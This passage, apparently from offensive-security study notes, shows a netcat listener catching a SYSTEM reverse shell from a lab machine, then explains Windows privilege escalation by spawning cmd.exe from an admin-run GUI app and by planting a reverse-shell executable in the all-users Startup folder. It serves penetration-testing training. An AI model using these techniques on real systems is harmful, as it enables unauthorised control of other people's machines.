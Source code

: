 ```
wixnic@kali$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 61878
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

We can grab the root flag from the administrator’s desktop:

```
C:\Users\Administrator\Desktop>type root.txt
82f9ddad************************
```

## Applications

### Insecure GUI Apps&#x20;

Users on some (earlier) versions of Windows may be given the ability to execute some GUI software with administrator capabilities. There are a variety of methods for spawning command prompts from within GUI software, including native Windows capability. The generated command prompt will execute with administrator privileges because the parent process is running with them.

#### Insecure GUI Apps Privilege Escalation

1.  Open a command prompt and run:

    ```
    > tasklist /V | findstr vulnerable.exe
    ```

    > Note that the executable must be running with admin privileges.
2. In the vulnerable GUI executable, click File, then Open.
3.  In the navigation input, replace the contents with a malicious file:

    ```
    file://c:/windows/system32/cmd.exe
    ```
4. Press Enter and then the malicious file will be executed.

### Startup Apps

By setting shortcuts to programs in a certain directory, each user can determine which apps start when they log in. For apps that should start for all users, Windows additionally includes a startup directory:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

We can use our reverse shell executable to escalate privileges when an admin logs in **if we can create files in this directory**.
